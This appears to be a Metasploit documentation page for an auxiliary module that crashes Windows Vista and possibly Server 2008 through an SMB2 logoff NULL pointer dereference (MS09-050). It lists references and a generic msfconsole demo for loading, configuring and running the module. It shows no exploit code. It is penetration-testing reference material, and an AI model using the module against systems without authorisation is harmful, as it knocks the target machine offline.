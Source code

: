## Microsoft SRV2.SYS SMB2 Logoff Remote Kernel NULL Pointer Dereference

This module triggers a NULL pointer dereference in the 
SRV2.SYS kernel driver when processing an SMB2 logoff 
request before a session has been correctly negotiated, 
resulting in a BSOD. Effecting Vista SP1/SP2 (And possibly 
Server 2008 SP1/SP2), the flaw was resolved with MS09-050.


## Module Name
auxiliary/dos/windows/smb/ms09_050_smb2_session_logoff

## Authors
* sf


## References
* http://cvedetails.com/cve/2009-3103/
* http://www.osvdb.org/57799
* http://technet.microsoft.com/en-us/security/bulletin/MS09-050




## Platforms


## Reliability
[Normal](https://github.com/rapid7/metasploit-framework/wiki/Exploit-Ranking)

## Demo

```
msf > use auxiliary/dos/windows/smb/ms09_050_smb2_session_logoff
msf auxiliary(ms09_050_smb2_session_logoff) > show targets
   ... a list of targets ...
msf auxiliary(ms09_050_smb2_session_logoff) > set TARGET <target-id>
msf auxiliary(ms09_050_smb2_session_logoff) > show options
   ... show and set options ...
msf auxiliary(ms09_050_smb2_session_logoff) > run
```
    
    
